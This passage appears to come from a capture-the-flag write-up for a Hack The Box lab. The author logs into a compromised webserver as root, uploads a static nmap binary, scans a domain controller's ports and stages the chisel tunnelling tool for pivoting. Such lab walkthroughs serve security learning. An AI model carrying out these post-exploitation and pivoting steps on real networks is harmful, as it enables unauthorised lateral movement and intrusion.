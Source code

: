 ```bash
$ ssh -i ~/.ssh/kali-rsa root@$TARGET
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Linux webserver 5.10.0-17-amd64 #1 SMP Debian 5.10.136-1 (2022-08-13) x86_64
...
Last login: Mon Aug 22 12:58:02 2022
root@webserver:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Lets transfer a static nmap to the host and see if we can enumerate the DC now.

```bash
$ scp -i ~/.ssh/kali-rsa nmap-static root@$TARGET:~/ 
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
nmap-static                                                                             100% 5805KB   1.2MB/s   00:04
```

```bash
root@webserver:~# chmod +x nmap-static

root@webserver:~# ./nmap-static -p- --min-rate 10000 192.168.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-08-26 10:33 CEST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for hope.windcorp.htb (192.168.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.00091s latency).
Not shown: 65519 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd
636/tcp   open  ldaps
3268/tcp  open  unknown
3269/tcp  open  unknown
5985/tcp  open  unknown
9389/tcp  open  unknown
49664/tcp open  unknown
56953/tcp open  unknown
57161/tcp open  unknown
60499/tcp open  unknown
MAC Address: 00:15:5D:10:93:01 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 20.05 seconds
```

```bash
$ scp -i ~/.ssh/kali-rsa /opt/chisel/v1.9.1/chisel root@$TARGET:~/
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
chisel                                                                                  100% 8452KB 870.8KB/s   00:09    

```
